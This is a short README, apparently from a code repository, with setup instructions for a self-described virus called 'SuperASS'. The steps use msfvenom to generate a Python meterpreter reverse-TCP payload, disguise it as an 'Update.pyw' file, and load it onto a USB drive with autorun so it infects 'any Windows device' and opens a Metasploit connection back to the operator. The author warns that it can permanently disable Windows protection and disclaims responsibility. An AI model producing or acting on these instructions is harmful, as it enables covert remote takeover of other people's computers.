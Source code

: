 SETUP INSTALL
Now! You Can Use SuperASS

After installing the project on your device, there are a few steps left to start your process

1- Open Terminal 

2- Type 'sudo su' & type your root password

3- Go to Desktop Right click and then press 'Open in terminal'

4- copy command & paste in the Terminal 'msfvenom -p python/meterpreter/reverse_tcp LHOST='YourIPAddres' LPORT='Your Port' -o Update.py

5- ReName Update.py to Update.pyw & copy in the SuperASS & Click Replace

6-After following the instructions, you can move the 'SuperASS' file to the Windows system and download the USB Auto Run Creator program, then choose the file MIN (1).exe in the USB disk to boot when inserted into the device and after the process of installing the file to boot, copy all the contents of the file to  USB Drive Then you can use it on any Windows device and receive a Metasploit connection

7- Important warning! I do not bear any use or damage or whatsoever with your bad use of the project, do not try the virus on your device, it may cause the death of Windows protection completely and the inability to recver it, think twice before that and prefer to use it in virtual simulation.
